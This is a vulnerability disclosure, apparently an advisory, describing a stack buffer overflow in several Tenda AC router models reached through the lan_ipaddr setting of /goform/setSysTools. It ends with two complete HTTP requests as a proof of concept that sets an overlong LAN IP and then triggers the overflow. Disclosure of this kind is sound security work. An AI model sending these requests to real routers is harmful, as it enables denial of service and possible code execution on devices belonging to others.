



# Tenda Router Vulnerability

This vulnerability exists in  module `deviceStatistics` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `sub_8007E298` function.(page  /goform/getSysTools in module deviceStatistics)


In this function, it will use `nvram_get("lan_ipaddr");` to get an NVRAM variable, which is then placed in a `V7` variable. After that ,it will use `Strcpy (v30, v7);` to put V7 on V30 without any security check.

The  `lan_ipaddr`  NVRAM variable can be controlled in the `sub_8007DB28` function.


You can see that it's assigned by `lanIP_buf`.


Initially `lanIP_buf` is what we inputed, so the `lanIP_buf` NVRAM variable becomes manageable.



If `strcmp(v47,lanip_buf)` does not return a value of 0 and `sub_80086470` returns a value of 0, then the NVRAM variable `lan_ipaddr` will be set to the `lanip_buf` we inputed.

The `lanip_buf` is the input vector, while v47 is a fixed string, so it is easy to make them different so that the `strcmp` function does not return zero.



In function `sub_80086470`  ,if we want it returns zero, we must make `strlen(a1)` is bigger than 7, it's easy to make.And the return value of function `sub_801B8EA4` must be zero.

In function `sub_801B8EA4` , it will do IP legitimacy check .  But it will not check the length. 

Experimentally,  we can get a very long string like 192.168.1.0000000000000000000000000000000000000000000000000000000000000001 to pass the check .And after the check, function `sub_801B8EA4` will give v4 a 4-bytes ip address . If a1 can pass the check, v2 will be zero, but a1 will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.

Thus, by first setting the `lan_ipaddr` on the page `/goform/setSysTools` and then requesting the page `/goform/getSysTools`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

&module3=lanCfg&lanIP=192.168.0.00000000000000000000000000000000000000000000000000000000000000000000001&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

```
GET /goform/getSysTools?random=0.7312766635668926&modules=deviceStatistics,lanCfg HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo




You can ensure that the module is indeed `deviceStatistics`, where the vulnerability will be triggered.

 If the number of characters were longer, it would be enough to overflow.

### Acknowledgment

Credit to @[chumen77](https://github.com/chumen77) and @[peanuts](https://github.com/peanuts62).